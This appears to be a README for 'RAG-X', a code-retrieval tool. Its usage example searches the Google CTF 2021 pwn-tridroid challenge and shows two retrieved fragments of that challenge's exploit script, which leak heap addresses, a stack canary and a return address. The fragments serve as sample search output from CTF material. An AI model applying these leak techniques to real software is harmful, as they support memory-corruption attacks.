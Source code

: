 # RAG-X

KEY=put-your-key python3 main.py /home/loani/projects/google-ctf-main/2021/quals/pwn-tridroid/ flag

# Result


Name: method_desc_heap_address
Type: variable
File Path: /home/loani/projects/google-ctf-main/2021/quals/pwn-tridroid/challenge/exploit/exploit.py
Snippet:
bridge.manageStack(password, 'push', hex('showFlag'));
        method_name_heap_address = leak_top_element_address();
        bridge.manageStack(password, 'push', hex('()V'));
        method_desc_heap_address = leak_top_element_address();

        // leak stack addresses
        bridge.manageStack(password, 'push', '');

====================================================================================================
Name: stack_ret_address
Type: variable
File Path: /home/loani/projects/google-ctf-main/2021/quals/pwn-tridroid/challenge/exploit/exploit.py
Snippet:
bridge.manageStack(password, 'push', '');
        bridge.manageStack(password, 'modify', '');
        stack_canary_address = unpack(unhex(bridge.manageStack(password, 'top', '')));
        stack_ret_address = stack_canary_address + 0x8;
        bridge.manageStack(password, 'pop', '');

        // leak stack canary on the stack

====================================================================================================
